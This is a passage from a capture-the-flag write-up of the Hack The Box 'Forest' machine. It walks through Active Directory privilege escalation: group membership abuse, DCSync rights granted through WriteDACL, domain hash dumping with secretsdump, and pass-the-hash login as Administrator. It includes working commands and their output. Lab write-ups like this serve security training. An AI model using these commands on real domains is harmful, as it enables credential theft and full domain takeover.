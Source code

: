 ### Step 2: Group Membership Manipulation

`Account Operators` can add users to most groups, including `Exchange Windows Permissions`:

```powershell
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members wither
```

### Step 3: DCSync Rights Assignment

`Exchange Windows Permissions` has `WriteDACL` on domain object - abuse this to grant DCSync rights:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -PrincipalIdentity wither -Rights DCSync -TargetIdentity "DC=htb,DC=local" -Credential $Cred -Verbose

...
Verbose: [Add-DomainObjectAcl] Granting principal CN=wither,CN=Users,DC=htb,DC=local 'DCSync' on DC=htb,DC=local
...
```

**Pro tip:** The `-Credential $Cred` parameter ensures the command executes under `wither`'s security context, which has the necessary `Exchange Windows Permissions` group membership.

### Step 4: Hash Extraction

DCSync attack to extract all domain password hashes:

```bash
secretsdump.py 'HTB'/'wither':'password'@'FOREST' 

...
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
...
[*] Kerberos keys grabbed
...
[*] Cleaning up...
```

### Step 5: Domain Admin Access

Pass-the-hash attack using Administrator's NTLM hash:

```bash
evil-winrm -i 'FOREST' -u 'htb.local\Administrator' -H 32693b11e6aa90eb43d32c72a07ceea6

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Root flag captured from Administrator's Desktop:

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> more ..\Desktop\root.txt
```

---